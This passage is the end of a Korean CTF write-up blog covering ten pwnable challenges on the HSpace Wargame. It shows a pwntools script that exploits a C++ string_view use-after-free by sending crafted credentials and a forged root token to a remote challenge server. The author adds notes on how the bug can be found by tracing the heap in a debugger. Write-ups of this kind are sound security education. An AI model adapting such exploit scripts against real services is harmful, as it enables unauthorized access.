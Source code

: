 ```cpp
    else{
        handle_guest(pw);
    }
}
```

```python
from pwn import *

# context.log_level = 'debug'
# e = ELF('./insecurecpp')
# p = e.process()
p = remote('3.34.190.217',15823)

p.sendlineafter(b'>> ', b'0')
idpw = b'aaaa&'+b'a'*32
p.sendlineafter(b'Enter ID&PW : ', idpw)

real = b'root'+b'@HSPACE@'+b'a'*25
p.sendlineafter(b'Token : ', real)

p.interactive()
```


### 블로그 포스트 작성자의 추가적인 코멘트

C++ library HEAP 트릭을 이용한 문제입니다. `string_view vulnerability` 라고 검색했을 때 뜨는 [깃허브 이슈](https://github.com/isocpp/CppCoreGuidelines/issues/1038)를 확인한다면 쉽게 풀 수 있지만 사실 standard library 에서 취약점이 발생할 수 있다는 사실을 떠올리기는 쉽지 않을 수 있습니다. 하지만 Pormat_string_bug 문제와 마찬가지로 디버거를 이용해 힙이 할당되고 재사용되는 과정을 추적한다면 UAF가 발생한다는 단서를 찾으실 수 있을 것입니다.  

---

이번 블로그에서는 총 10문제의 포너블 문제를 풀이해 봤습니다. 이번 문제들도 [HSpace Wargame](https://chall.hspace.io) 사이트에서 풀 수 있으니 직접 디버깅해보며 익스플로잇 코드를 작성해보시는 것을 추천드립니다. 도움이 되셨다면 주변에 널리 홍보 부탁드리겠습니다~! 

---

